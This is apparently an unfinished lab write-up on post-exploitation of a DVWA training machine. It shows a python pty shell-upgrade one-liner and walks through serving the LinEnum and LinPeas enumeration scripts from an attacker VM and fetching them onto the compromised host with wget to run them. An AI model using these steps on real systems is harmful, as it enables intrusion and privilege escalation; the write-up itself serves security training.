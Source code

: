 # Post Exploitation and Privilege Escalation:

At this stage trying to execute a command using the sudo keyword gives us the following:

![Screen Shot 2022-04-25 at 13 28 35](https://user-images.githubusercontent.com/18306338/165151242-b36a820b-e655-4dbc-9588-98a840e50e3c.png)

The "no tty present on askpass program specified" message indicates we are not an user with sudo privileges.

In order to do an upgrade of our shell we need to resort to a python library called 'pty', which spawns a tty shell for us.

![Screen Shot 2022-04-25 at 13 35 11](https://user-images.githubusercontent.com/18306338/165151353-1a958504-d817-401b-b5e6-83516e97fa48.png)

https://netsec.ws/?p=337 - the following link gives quite a few options to spawn a tty shell using different scripting languages.

After executing the python -c 'import pty; pty.spawn("/bin/sh")' command we now see a different output when we execute sudo -l in our terminal.

![Screen Shot 2022-04-25 at 13 36 25](https://user-images.githubusercontent.com/18306338/165151424-a53572c9-4704-4850-9c9c-df2c44c1eaaa.png)

The first stage of 'upgrading' our terminal in now complete.

Next step is to enumerate the machine and get information about running processes/cron jobs/sudo users etc.
In order to achieve that we will use a tool called LinEnum.

First thing we need to do is download the git repo to our machine

![Screen Shot 2022-04-25 at 14 17 17](https://user-images.githubusercontent.com/18306338/165151715-c401f17e-d32c-46c4-ae77-be07ad76da45.png)

We can see the .sh file that we need to execute.

In order to execute the bash script file onto the DVWA machine we need to serve this file on a server, which will make the file accessible on the dvwa machine through the wget tool . For that purpose we use python http.server package.

We start the python server

<img width="728" alt="Screen Shot 2022-04-25 at 14 21 26" src="https://user-images.githubusercontent.com/18306338/165152343-e6744472-68a7-4538-9cfd-3fff18cc96e9.png">

Then we obtain the ip address of our Kali VM

![Screen Shot 2022-04-25 at 14 27 52](https://user-images.githubusercontent.com/18306338/165152506-6eaec5ff-e0de-4c96-994c-f6a8de87b404.png)

After we have the python server running and the ip address we navigate to the reversed shell and run ls -la command to see where we have write access.

After entering the tmp folder we use wget to get the http:\\10.0.2.15:8000\LinEnum\LinEmun.sh file

![Screen Shot 2022-04-25 at 14 36 34](https://user-images.githubusercontent.com/18306338/165152577-99ebd22b-f22a-4db7-bd0d-645919e978d5.png)

Initially trying to run the LinEmun.sh script yields a "Permission denied error". This is usually due to the fact that the file in place is missing the executable right and once added the script runs and we gather information for the DVWA machine.

<img width="765" alt="Screen Shot 2022-04-25 at 14 40 53" src="https://user-images.githubusercontent.com/18306338/165153030-c7ffb42f-7174-46a1-a140-4fc7217300f8.png">

## What is DVWA vulnerable to?

In order to evaluate what DVWA is vulnerable to we use the same approach with another tool called LinPeas.
![Screen Shot 2022-04-25 at 22 17 47](https://user-images.githubusercontent.com/18306338/165158976-f44b2092-fb6f-450c-b053-865bd42e9b85.png)

![Screen Shot 2022-04-25 at 22 18 15](https://user-images.githubusercontent.com/18306338/165158989-206a2189-fd90-4ce8-bb32-b854aad8434e.png)


and then in the DVWA reverse shell 




## What are the most probable exploits? (try using Linux exploit suggester)

## Check the most probable vulnerabilities

## Extra Mile: Try to exploit the machine using the most probable vulnerabilities
